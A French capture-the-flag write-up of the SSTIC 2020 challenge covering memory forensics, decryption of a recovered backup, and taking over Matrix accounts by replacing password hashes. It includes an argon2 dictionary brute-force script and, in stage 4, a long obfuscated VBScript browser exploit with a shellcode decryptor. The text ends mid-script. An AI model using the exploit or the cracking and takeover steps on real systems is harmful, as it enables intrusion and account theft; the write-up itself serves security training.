



# Contexte

Cette année, le challenge SSTIC 2020 a été publié le 1 Avril.
Les participants avaient jusqu'au 20 mai pour résoudre le challenge,
en envoyant un email à l'adresse obtenue suite à la résolution 
de la dernière étape.

# Présentation

La présentation du challenge publiée sur https://www.sstic.org/2020/challenge/
est la suivante:

```
Il y a quelque mois, un pays voisin, la Bièrique, a mis en production un
logiciel de messagerie instantanée baptisé « Kazh-Boneg ». Ce logiciel met en
œuvre des algorithmes de chiffrement à l'état de l'art afin que les serveurs
d'infrastructure ne puissent pas voir le contenu des messages.

Cela a attiré divers groupes d'opposition, dont le Sivi-Ha-Kerez, qui promeut
le remplacement de la boisson nationale par le sirop de fruits rouges.

La police de la Bièrique soupçonne ce groupe de préparer un coup d'État, et
cherche ainsi à écouter certaines discussions de Kazh-Boneg.

L'interrogation de quelques individus a permis de mettre la main sur
l'ordinateur d'un membre du groupe. Avec celui-ci, il devrait être possible de
déchiffrer les messages et de remonter à l'identité du cerveau du Sivi-Ha-Kerez.

Toutefois la police est en sous-effectif et l'urgence de cette mission la force
à demander à l'aide à ses alliés.

Êtes-vous en mesure de l'aider ?
```


## Étape 1

L'archive disponible à l'adresse suivante permet de démarrer le challenge: 
https://static.sstic.org/challenge2020/dump.tar.gz.

L'archive contient un script `dump_memory.sh`, un clone du dépôt 
git https://github.com/504ensicsLabs/LiME.git ainsi que le fichier `memory`, dump mémoire 
de l'ordinateur d'un membre du groupe 'Sivi-Ha-Kerez'.

Après décompression du dump mémoire, la commande `strings` permet d'identifier
que le dump a été réalisé sur une machine utilisant la distribution debian, 
avec un noyau en version 4.19.67:

```
SMP Debian 4.19.67-2+deb10u2 / 4.19.0-6-amd64
```

Le noyau de la VM debian, utilisé pour l'analyse du dump mémoire étant en version 4.19.98, j'ai installé un noyau
plus ancien, pour qu'il corresponde à celui utilisé dans le dump.

```
sudo apt install linux-image-4.19.0-6-amd64 linux-headers-4.19.0-6-amd64
```


 Ceci permet ainsi de construire un profil volatility
valide, qui permet l'analyse du dump:


La liste des processus peut-être identifié avec les plugins volatilty `psscan` et `pstree`: 
```
Name                 Pid             Uid            
systemd              1                              
.systemd-journal     222                            
.systemd-udevd       239                            
.systemd-timesyn     372             101            
.rsyslogd            385                            
.cron                386                            
.systemd-logind      387                            
.dbus-daemon         390             104            
.wpa_supplicant      391                            
.login               454                            
..bash               677                            
...dump_memory.sh    684                            
....insmod           1201                           
.sshd                455                            
.dhclient            426                            
.dhclient            425                            
.systemd             496             1000           
..(sd-pam)           497             1000           
..gpg-agent          516             1000           
...scdaemon          520             1000           
.backup.sh           533             1000           
..sleep              650             1000           
.systemd             667                            
..(sd-pam)           668                            
```

Le script bash `backup.sh`, mérite un petit coup d'oeil, il est possible 
d'identifier son numéro d'inode avec le plug-in `linux_enumerate_files`:

```
     Inode Address Inode Number              Path
------------------ ------------------------- ----
0xffff97531b201e70                    131093 /home/bakeup/backup.sh
```

L'extraction de ce fichier se fait ensuite en utilisant le plug-in `linux_find_file`,
qui prend en paramètre le numéro d'inode correspondant.

On obtient ainsi le fichier suivant:

```bash
while true
        log "Starting new backup"
        WORKDIR=$(mktemp -d)
        BACKUPCMD="KHBnX2R1bXAgc3luYXBzZSA7IHRhciBjeiB+L21lZGlhX3N0b3JlKSB8IGd6aXAgLTEgfCBvcGVuc3NsIGVuYyAtZSAtYWVzMjU2IC1pdiA1ZDExNWEyOWQxZTcwZmM3Y2VmODQ0MWUzYzRmY2I1MyAtSyBlZDM1OGFmNmNlODIyNDgwZDM4NGRmMmNiOTc4NTc2Y2Q1MTI5NzM3MzUzOTkzOGVhOTlmMjY4MTNmZmY1MjVmID4gfi9zeW5hcHNlLmJhawo="
        ssh synapse-node "$(echo ${BACKUPCMD} | base64 -d)"
        log "Downloading backup"
        scp synapse-node:synapse.bak ${WORKDIR}/tmp
        split -b 256k -d ${WORKDIR}/tmp ${WORKDIR}/tmp
        rm ${WORKDIR}/tmp
        log "Copying on external drive"
        sudo mount /dev/disk/by-label/external /mnt/external
        backup_date=$(date "+%F-%T")
        for part in $(ls ${WORKDIR}); do
                gpg --encrypt --armor --recipient "Sivi Ha Kerez" -o /mnt/external/backup/${backup_date}.${part}.backup ${WORKDIR}/${part}
        done
        sha256sum ${WORKDIR}/* > ${WORKDIR}/tmp.sha256sum
        cp ${WORKDIR}/tmp.sha256sum /mnt/external/backup/${backup_date}.sha256sum
        sudo umount /mnt/external # Sync on disk
        # Cleanup
        log "Cleanup"
        srm -r ${WORKDIR}
        # Wait 1 day before next backup
        log "Wait"
        sleep 1d
done
```

Ce script est utilisé pour effectuer la sauvegarde d'un serveur synapse via, l'envoi de la commande suivante au serveur, à travers ssh:

```bash
'(pg_dump synapse ; tar cz ~/media_store) | gzip -1 | openssl enc -e -aes256 -iv 5d115a29d1e70fc7cef8441e3c4fcb53 -K ed358af6ce822480d384df2cb978576cd51297373539938ea99f26813fff525f > ~/synapse.bak\n'
```

Le fichier `synapse.bak` est ensuite récupéré via sftp, puis la commande `split` découpe ce 
fichier en blocs de 256ko dans un dossier temporaire créé via `mktemp`:

```
     Inode Address Inode Number              Path
------------------ ------------------------- ----
0xffff97531ea71928                     12453 /tmp
0xffff97531e7fa328                     15184 /tmp/tmp.lbDY6KLaOE
0xffff97531e7fab68                     15349 /tmp/tmp.lbDY6KLaOE/tmp.sha256sum
0xffff97531b49f3a8                     15305 /tmp/tmp.lbDY6KLaOE/tmp85
0xffff97531b49eb68                     15304 /tmp/tmp.lbDY6KLaOE/tmp84
..
..
0xffff97531e7fbbe8                     15221 /tmp/tmp.lbDY6KLaOE/tmp01
0xffff97531e7fb3a8                     15220 /tmp/tmp.lbDY6KLaOE/tmp00
```

Les plugin `linux_enumerate_files` et `linux_find_file` permettent d'obtenir les 86 parties et de 
reconstruire ainsi le fichier `synapse.bak`, qui après déchiffrement donne la sortie suivante
pour la commande `file`:
```
synapse.bak: gzip compressed data, last modified: Thu Apr  2 10:57:10 2020, max speed, from Unix, original size 23189835
```

Après decompression des flux, nous pouvons reconstruire les fichiers `synapse.dump` et `media_start.tgz`:

```
dd if=synapse_uncompress.bak bs=1 count=1242292 > synapse.dump
dd if=synapse_uncompress.bak bs=1 skip=1242292 > media_start.tgz
```

Le fichier `synapse.dump` est un dump de la base PostgreSQL utilisée par le serveur synapse:

```
--
-- PostgreSQL database dump
--

-- Dumped from database version 11.7 (Debian 11.7-0+deb10u1)
-- Dumped by pg_dump version 11.7 (Debian 11.7-0+deb10u1)
```

Le fichier `media_start.tgz` est une archive du dossier `var/lib/synapse/media_store/`
utilisé par le serveur synapse.

Un `grep` de la chaine 'SSTIC' sur le fichier `synapse.dump` permet ainsi d'obtenir le flag de la première étape:

```
SSTIC{f8693a5a340b67c4ac13abb93e57da55b935577fc76cbe14c223fb5912ccc795}
```

## Étape 2

La deuxième étape consiste à installer et configurer un serveur Matrix, (https://matrix.org/docs/projects/server/synapse),
similaire à celui utilisé par le groupe d'attaquant 'Sivi-Ha-Kerez'.

### Installation de la base de données

Il faut tout d'abord installer un serveur PostgreSQL et créer une nouvelle base de données:

```sql
CREATE DATABASE synapse
 ENCODING 'UTF8'
 LC_COLLATE='C'
 LC_CTYPE='C'
 template=template0
 OWNER synapse;
 ```

On peut ensuite importer le dump de la base, récupéré lors de l'étape précédente:

```bash
psql -d synapse -f synapse.dump
```

### Installation du serveur Matrix (synapse)

Il faut ensuite suivre la procédure d'installation suivante, afin
de configurer le serveur synapse: https://github.com/matrix-org/synapse/blob/master/INSTALL.md

Les modifications apportées au fichier template `homeserver.yaml` sont les suivantes: 

```yaml
## Server name ##
server_name: "kazh-boneg.brq"

## Database ##

database:
 name: "psycopg2"
 args:
  user: "synapse"
  password: "synapse"
  database: "synapse"
  host: "127.0.0.1"
  cp_min: 5
  cp_max: 10
```

Le serveur synapse se lance avec le script `synctl`:

```bash
synctl --no-daemonize start homeserver.yaml
```

### Changement des mots de passe

La table `users` contient (entre autres) les noms d'utilisateurs et hash des mots de passe
des membres du groupe "Sivi Ha Kerez":

|name|password_hash|
|----|-------------|
|@alice:kazh-boneg.brq|$2b$12$NmbPp4unnngu0zPGRelE6uYY28Z80T0IIlW3FZoR8eXS75l1OlvD6|
|@bobbytable:kazh-boneg.brq|$2b$12$q07Mj1bufhAbnUuCeHTne.Pyj8x9s.UuQBpY4m1.OYHRN7X6k6E1q|
|@percevaleur:kazh-boneg.brq|$2b$12$jdKfizmVMNfG3t5Dx4ynnegti/4HcP5HQbsSJxLqOXMd.a7okUNGK|
|@macrohardonfire:kazh-boneg.brq|$2b$12$U7XHAarOtxoCz3oOIU1H4u83QeJLPSp2y/TBaPUGMdp80Gz7DKpiG|
|@pirasp:kazh-boneg.brq|$2b$12$t9VMLyOZnonin13/eVgfE.tdOmBKpuiOFuycsyBW/DuAhYxwgUoEq|
|@aladin:kazh-boneg.brq|$2b$12$MLwmN7/OYiM.PtDu.nPyO.bS.uUMRkYi26o4DAgC8k.I.pbySFV5.|
|@trounormand:kazh-boneg.brq|$2b$12$/kT7QUwqyt.CVP7istWFc.L.ksk7vcy92BlCpM4.kMxU1iLeGEJNS|
|@citronpresse:kazh-boneg.brq|$2b$12$c0vQ3GNQXCXCjuIQYaZpsOMAIgY1u1.lj5GIC6I5Hd4CXghBJSrcm|
|@pommedamour:kazh-boneg.brq|$2b$12$V8Gd/z9.1lwJXu8LnSzz0.IvFCQ/fIQZdClt966jOmSOgKRCo0s96|
|@licoeur:kazh-boneg.brq|$2b$12$o/FugETOtgFPf4XMpWatsOJnv3Xs.KMBf.PkbTD/x87mdNRqZYW56|
|@houpez:kazh-boneg.brq|$2b$12$kFoPw9wXmg/YVWTtlNfzF.UgMGZX8pU7TnNLUaT96j.AbZM/o1TBy|
|@root:kazh-boneg.brq|$2b$12$wnJM86KhcDXACzRazuQ1O.BcUZa3pQCiv94QMx/G1aL6hpJ/X9BPi|
|@triplechacha:kazh-boneg.brq|$2b$12$wnJM86KhcDXACzRazuQ1O.BcUZa3pQCiv94QMx/G1aL6hpJ/X9BPi|
|@gwrizienn:kazh-boneg.brq|$2b$12$wnJM86KhcDXACzRazuQ1O.BcUZa3pQCiv94QMx/G1aL6hpJ/X9BPi|
|@ceriseliquide:kazh-boneg.brq|$2b$12$wnJM86KhcDXACzRazuQ1O.BcUZa3pQCiv94QMx/G1aL6hpJ/X9BPi|
|@fraiseglacee:kazh-boneg.brq|$2b$12$wnJM86KhcDXACzRazuQ1O.BcUZa3pQCiv94QMx/G1aL6hpJ/X9BPi|


Les mots de passe des utilisateurs étant inconnus, il est nécessaire de les changer
pour se connecter au serveur synapse. L'outil `synapse/scripts/hash_password` permet
de générer un hash pour un mot de passe donné, et ainsi de changer le hash directement
dans la table `users` de la base de données.

Le hash suivant, généré à partir mot de passe "password", sera copié
dans le champ `password_hash` de la table `users` pour les utilisateurs avec lesquels on souhaite se connecter:

```
$2b$12$wnJM86KhcDXACzRazuQ1O.BcUZa3pQCiv94QMx/G1aL6hpJ/X9BPi
```

### Connexion au serveur Matrix

L'installation de Riot (https://github.com/vector-im/riot-web), client Matrix, permet de se connecter au serveur installé précédemment.

Sur certains channels du serveur, les messages ne sont pas chiffrés.

C'est le cas par exemple du chan #public, qui contient le flag de l'étape 1, identifié dans le dump de la base de données.

Ce flag va servir de passphrase pour l'import des clés megolm du chan #cache (`cache.megolm_keys.txt`):



Suite à l'import des clés megolm, une conversation entre Gwrizienn et TripleChacha, initiée à partir du chan #cache 
est désormais accessible et permet l'obtention du second flag:

```
SSTIC{3e43df4fc2e11c9226bbc2a22bc12a4d083678e6a2f3e9ca2fae05e19ed42ba7}
```

## Étape 3

Gwrizienn envoi ses clés megolm (`gwrizienn.megolm_keys.txt`) à TripleChacha au cours d'une conversation.
Il explique que la passphrase nécessaire pour importer ses clés est donnée par le programme `show_password`,
qui utilise le fichier `hashes.txt`:

```
Le mot de passe est donné par un logiciel que j'ai écrit, qui prend en entrée un mot de passe qui sert de « clé de dérivation ».
```

Le programme `show_password` est un fichier ELF:

```
show_password: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.9, stripped
```

Le fichier `hashes.txt` est le suivant:

```
meteo:$sstic$ad6w.742e=#1!2=&$t/3?v0.,ebYY_F}QSWYWDfDIuYB@oj2Jc*XqIE{zOwEzDtqCFhj^q
chat:$sstic$ad6w.742e=#1!2=&$t/3?v0.,SzfPIDt~VhWXr]SCECfv5j2rZeob2Z.@4^pgqdU[AGMBW
```

Le mot de passé associé à l'entrée `meteo` du fichier `hashes.txt` est donné dans la conversation,
et permet de valider que le programme fonctionne:

```
remi@sstic:~/show_password hashes.txt meteo               
Password for meteo: AlloBruineCrachin
Good password ���
Welcome ���
Your password is Jbeh3AWZIve1Tez1Ptw+qg
```

L'objectif est donc de trouver le mot de passe associé à l'entrée `chat` du fichier `hashes.txt`.

Dans la conversation, on apprend que les clés prises en compte par le programme sont composées de 3 mots
parmi un ensemble de 26 mots:

```
En fait, je me suis inspiré de ton pseudo pour construire les clés que j'utilise : il s'agit de la concaténation de trois mots parmi un ensemble de mots écrits sur une feuille de papier que je garde sur moi tout le temps.
``` 

Les 26 mots, recopiés à partir de l'image fournie, permettent de créer le dictionnaire suivant:

```
Allo
Bruine
Crachin
Dour
Etudiant
Fransez
Gwrizienn
Hacktheplanet
Iliz
Jablus
Kerez
Lukachenn
Mabig
Nebeut
Oskeg
Pastel
Quidditch
Roazhon
Sivi
Tabut
Ubuntu
Vaskin
Warantugin
Xkcd
Yaek
Zedik
```

On peut ainsi assimiler la clé d'entrée à un mot de passe composé de 3 caractères parmi les 26 lettres de l'alphabet.

Une attaque par brute-force de 26<sup>3</sup> combinaisons permettra ainsi de tester l'ensemble des clés acceptées par le programme.

L'analyse statique permet d'identifier que le fichier ELF est généré à partir d'un programme codé en Rust, qui utilise la libraire `rust-argon2` (https://github.com/sru-systems/rust-argon2).

L'analyse dynamique, permet de confirmer cette hypothèse, pour l'utilisateur `chat`, le programme va vérifier que le hash argon2 de la clé spécifiée correspond à:
```
$argon2id$v=19$m=102400,t=2,p=8$epXJYKkYSEXDBkRAuKCSig$Bc8YbOHmrOeDiBygKFzkMw
```

 * `v=19`     => ARGON2_VERSION_NUMBER = 0x13
 * `m=102400` => amount of requested memory in KB
 * `t=2`      => time cost
 * `p=8`      => number of threads
 * `epXJYKkYSEXDBkRAuKCSig` => salt base64 encoded
 * `Bc8YbOHmrOeDiBygKFzkMw` => hash base64 encoed

Le script python suivant, permet d'implémenter l'attaque par brute-force, avec le dictionnaire composé des 26 mots:

```python
#!/usr/bin/env python3
import sys
import base64
import itertools
import string
from passlib.hash import argon2

DICTIONARY_PATH = 'dico.txt'

if __name__ == '__main__':
	salt_meteo=base64.b64decode('epXJYKkYSEXDBkRAuKCSig==')
	password_meteo='AlloBruineCrachin'
	hash_meteo="$argon2id$v=19$m=102400,t=2,p=8$epXJYKkYSEXDBkRAuKCSig$Bc8YbOHmrOeDiBygKFzkMw"

	salt_chat=base64.b64decode('ShgCOIbvVzVKtPEKEQge3g==')
	hash_chat="$argon2id$v=19$m=102400,t=2,p=8$ShgCOIbvVzVKtPEKEQge3g$zZwnq4W8H4LqtwiCSAULQQ"

	a = argon2.using(type='ID', salt=salt_meteo, rounds=2, memory_cost=102400, parallelism=8)
	assert(hash_meteo == a.hash(password_meteo))

	a = argon2.using(type='ID', salt=salt_chat, rounds=2, memory_cost=102400, parallelism=8)

	dico = {}
	with open(DICTIONARY_PATH, 'r') as f:
		for line in f:
			dico[line[0:1]] = line.strip()

	for combin in itertools.product(string.ascii_uppercase, repeat=3):
		password = ''.join((dico[combin[0]], dico[combin[1]], dico[combin[2]]))
		print(f'Trying password: {password}')
		if a.hash(password) == hash_chat:
			print(f'Password is {password}')       
			sys.exit(0)

	print('Could not find password for entry chat')
	sys.exit(1)
```

L'exécution du script permet ainsi d'obtenir la clé attendue:

```
Trying password: AlloAlloAllo
Trying password: AlloAlloBruine
Trying password: AlloAlloCrachin
...
Trying password: OskegLukachennMabig
Password is OskegLukachennMabig
```

La clé `OskegLukachennMabig`, fournie au programme `show_password`, permet d'obtenir le flag de la 3e étape:

```
remi@sstic:~/stage3$ ./show_password hashes.txt chat
Password for chat: OskegLukachennMabig
Good password ���
Welcome ���
Your password is SSTIC{556c34304f6279736e516f3267794e4963637a637051}
```

Ce flag, utilisé comme passphrase, permet l'import des clés megolm de Gwrizienn (`gwrizienn.megolm_keys.txt`).

## Étape 4

L'import des clés megolm de Gwrizienn permet de lire une conversation entre Gwrizienn et CeriseLiquide, où CeriseLiquide envoie ses clés megolm,
tout en refusant de donner sa passphrase permettant de les importer.

L'import des clés permet également la lecture du chan #shk (Sivi-Ha-Kerez), où CeriseLiquide indique qu'il s'est probablement fait compromettre:

```
j'ai l'impression que ma machine a été compromise en visitant un site web...
```

```
j'utilise un Windows 98 seconde édition sur un vieux PC des années 90
```

```
non c'est l'install de base, mon CD original était rayé du coup je l'ai récupéré sur https://winworldpc.com/download/c3b4c382-3210-e280-9d7b-11c3a4c2ac5a
de toutes façons mes fichiers sensibles sont chiffrés mais je me demande quand même ce qui s'est passé exactement
voilà le fichier PCAP
```

### Analyse du pcap

Le pcap à disposition est constitué de 3 sessions TCP entre le client `192.168.20.128` et le serveur `192.168.20.1`.

Les sessions 1 et 2 utilisent le protocole applicatif HTTP, généré par le navigateur de CeriseLiquide, Internet Explorer 5.0:
```
User-Agent: Mozilla/4.0 (compatible; MSIE 5.0; Windows 98; DigExt)
```

La session 3 est à destination du port 443, mais ne correspond pas à du trafic TLS (i.e pas de ``Client Hello``).

Sur la première session HTTP, un script VBS suspicieux est renvoyé par le serveur:

```javascript
// Note: Shellcode tronqué pour allégé la solution
Dim IIIIIIIIIIIIIIIIIIIIIIIII : IIIIIIIIIIIIIIIIIIIIIIIII = Array(&HF6,&H87, ..)
Dim IIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = navigator.userAgent

Class IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
    Public IIIIIIIIIIIIIIII,IIIIIIIIIIIIIII
    Public IIIIIIIIIIIIIIIIIIIIII
    
    Private Sub Class_Initialize
      ReDim IIIIIIIIIIIIIIIIIIIIII(256)
    End Sub
    
    Public Sub IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
      Dim IIIIIIIIIIIIIIIIIIIIIIIIIIIIII
      
      IIIIIIIIIIIIIIII = 0
      IIIIIIIIIIIIIII = 0
            
      For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIII) - 1
        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIIIIIIIIIII
      Next
      
      Dim IIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIII
      IIIIIIIIIIIIIIIIIIIII = 0
      IIIIIIIIIIIIIIIIIIII = 0
      
      For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To UBound(IIIIIIIIIIIIIIIIIIIIII) - 1
        IIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
        
        Dim IIIIIIIIIIIIIIIIIIIIIIII
        
        If (VarType(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = (vbArray + vbVariant)) Then
          IIIIIIIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIII)
        Else
          IIIIIIIIIIIIIIIIIIIIIIII = CInt(Asc(Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,(IIIIIIIIIIIIIIIIIIIII + 1),1)))
        End If
        
        IIIIIIIIIIIIIIIIIIII = CInt((IIIIIIIIIIIIIIIIIIIIIIII+CInt((IIIIIIIIIIIIIIIIIII+IIIIIIIIIIIIIIIIIIII) And 255)) And 255)
        IIIIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIII + 1
        
        If (IIIIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIIIIIIIIIIII) Then
          IIIIIIIIIIIIIIIIIIIII = 0
        End If
        
        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIII)
        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIII
      Next
      Call IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
    End Sub

    Public Sub IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,ByVal IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,ByRef IIIIIIIIIIIIIIIIIIIIIIIIII)
      Dim IIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIII
      ReDim IIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
      
      For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII - 1
        IIIIIIIIIIIIIIII = CInt((IIIIIIIIIIIIIIII+1) And 255)
        IIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIII)
        
        IIIIIIIIIIIIIII = CInt((IIIIIIIIIIIIIIIIII+IIIIIIIIIIIIIII) And 255)
        IIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIII)
        
        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIII
        IIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIII
        
        If (VarType(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = vbString) Then
          IIIIIIIIIIIIIIIIIIIIIIII = CInt(Asc(Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII + 1),1)))
        Else
          IIIIIIIIIIIIIIIIIIIIIIII = IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
        End If
        
        IIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIII(CInt((IIIIIIIIIIIIIIIIII+IIIIIIIIIIIIIIIII) And 255)) Xor IIIIIIIIIIIIIIIIIIIIIIII
      Next
    End Sub
End Class

Set IIIIIIIIIIIIIIIIIIIIIII = New IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII

Call IIIIIIIIIIIIIIIIIIIIIII.IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,Len(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII))

Call IIIIIIIIIIIIIIIIIIIIIII.IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIII,UBound(IIIIIIIIIIIIIIIIIIIIIIIII)+1,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)

  For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To 51
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = Chr(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
  Next
  For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To (UBound(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)-53)/2
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = ChrW((IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII*2) + (IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII*2+1) * &h100)))
  Next
IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = join(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,"")
Function a()
    Dim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIII,IIIIIIIIIIIII,IIIII,IIII,IIIIIIIII,IIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIII,IIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,II,IIIIIIIIIIIIII
    ReDim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(42)
    ReDim IIIIIIIIIII(32)
    ReDim III(UBound(IIIIIIIIIII))
    ReDim IIIIIIIIII(UBound(IIIIIIIIIII))
    ReDim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(50)

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To 42
        IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIIIIIIIIIII + 1
    Next
